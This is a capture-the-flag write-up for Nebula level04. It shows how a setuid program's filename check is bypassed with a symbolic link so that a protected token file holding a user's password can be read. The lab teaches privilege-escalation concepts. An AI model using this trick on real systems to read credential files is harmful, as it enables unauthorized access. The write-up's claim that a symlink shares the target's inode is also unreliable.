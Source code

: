 ##Level04  
  
The source code is found [here](https://exploit-exercises.com/nebula/level04/).  
  
All it does is open a file, as long as its name is `token`, and write to standard output (`write(1, buf, rc)`):
```
$ ./flag04 
./flag04 [file to read]
```
  
This is what happens when we try runing the mission executable with `token` as argument:  
```
$ /home/flag04/flag04 token
You may not access 'token'
```
Renaming token or copying it to another diretory is not permitted either.
So to pass the level we need to provide `flag04` with a filename that loads `/home/flag04/token` in the file descriptor.  
How to create a file with the same inode as `/home/flag04/token`? Symbolik (soft) links.  
```
$ cd /home/level04
$ ln -s /home/flag04/token /home/level04/SLink
$ home/flag04/flag04 /home/level04/SLink
<output supressed>
```
Token's output is the password to user flag04. Exit and login as that user, then run `$ ./getflag` to complete the mission.
